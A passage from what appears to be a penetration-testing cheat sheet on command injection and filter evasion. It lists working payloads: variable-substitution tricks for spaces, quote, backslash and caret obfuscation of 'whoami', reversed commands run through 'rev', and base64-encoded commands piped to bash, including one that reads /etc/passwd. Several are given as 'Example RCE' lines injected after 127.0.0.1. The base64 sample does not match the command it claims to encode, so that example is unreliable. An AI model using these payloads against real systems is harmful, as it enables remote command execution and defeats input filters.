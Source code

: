 Example RCE: `127.0.0.1${LS_COLORS:10:1}${IFS}`

* Linux and Windows

Other way is the obfuscation technique, for example:

```
w'h'o'a'mi
```

or:

```
w"h"o"a"mi
```

or:

```
w\h\o\ami
```

or:

```
wh^oami
```

or:

```
whoAmi
```

Example RCE: `127.0.0.1%0aw'h'o'a'mi`


* Reversed comands

Another command obfuscation technique is reversing commands and having a command template that switches them back and executes them in real-time. In this case, we will be writing `imaohw` instead of `whoami` to avoid triggering the blacklisted command.

Example:

```
echo 'whoami' | rev
```

```
$(rev<<<'imaohw')
```

Example RCE: `127.0.0.1%0a$(rev<<<'imaohw')`


* Encoded commands

Example:

```
echo -n 'cat /etc/passwd | grep 33' | base64
```

```
bash<<<$(base64 -d<<<IYIQGEhjkwe==)
```
